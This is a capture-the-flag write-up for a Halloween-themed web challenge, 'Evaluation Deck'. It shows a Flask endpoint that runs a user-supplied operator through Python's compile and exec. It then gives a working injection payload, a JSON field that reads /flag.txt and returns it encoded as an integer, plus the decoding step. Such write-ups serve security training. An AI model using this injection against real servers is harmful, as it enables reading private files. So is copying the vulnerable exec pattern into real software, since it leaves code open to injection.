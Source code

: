 # Evaluation Deck

## Challenge Description

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?


## Solution
We are given the source code for the website, after reading some of the code, I found an API that features an interesting method which supposedly calculates the health of the ghost (in the website) from the given paramaters.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

However, they are using Python's `compile` and `exec` function, which can be very dangerous when executed from unsanitized user input.

We can control all the paramters, but `current_health` and `attack_power` are converted to int and that limits us to pass only numbers (otherwise the program on the server will just crash).

That leaves us with `operator` that needs to be added to two numbers.
So I tried to find a way to encrypt the flag into a number which can then be decrypted into the flag itself.

I ended up converting the flag to bytes and then to int - using the following line of code:

```python
flag = 'HTB{f4k3_fl4g_f0r_t3st1ng}'
flag_bytes = flag.encode('utf-8') 
flag_int = int.from_bytes(flag_bytes, 'little')

# flag_int = 201516498940107249491797512894218632304837388393313697999770696
```
`flag_bytes` can be simplified to `flag_bytes = open('/flag.txt', 'rb').read()`

this number can now be added to the other two variables, so the final payload to be sent as a POST reqeust using Postman:

```json
{
    "current_health": 50,
    "attack_power": 50,
    "operator": "+ int.from_bytes(open('/flag.txt', 'rb').read(), 'little') +"
}
```

The result I got was `56597642921265698821522452374355843011427354479177954040810850297494445905068`.

Now because the flag int was added to `50` from both sides, we need to substract a total of `100` from the result (
    ```56597642921265698821522452374355843011427354479177954040810850297494445905068 - 100 = 56597642921265698821522452374355843011427354479177954040810850297494445904968```
    ).

To decode the number we just need to convert back from int to bytes:
```python
result.to_bytes((result.bit_length() + 7) // 8, 'little')

# b'HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}'
```




